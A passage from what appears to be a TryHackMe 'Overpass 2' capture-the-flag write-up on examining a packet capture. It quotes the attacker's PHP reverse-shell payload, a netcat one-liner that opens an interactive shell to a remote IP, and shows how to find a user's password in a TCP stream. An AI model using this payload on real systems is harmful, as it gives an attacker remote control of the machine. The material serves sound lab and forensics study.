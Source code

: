 ![payload](/assets/img/tryhackme/overpass-2/payload.png)

Answer : `<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>`

<br>
### 1.3 What password did the attacker use to privesc?
Now, **`CTRL+F`** to search. After that, we set the **`string`** and searching for requests containing **`passwords`**.

![string](/assets/img/tryhackme/overpass-2/string.png)

Now, requests that contain passwords from this search will appear marked.

![mark](/assets/img/tryhackme/overpass-2/marked.png)

We look at the TCP Stream and we have james' password.

![password](/assets/img/tryhackme/overpass-2/password.png)
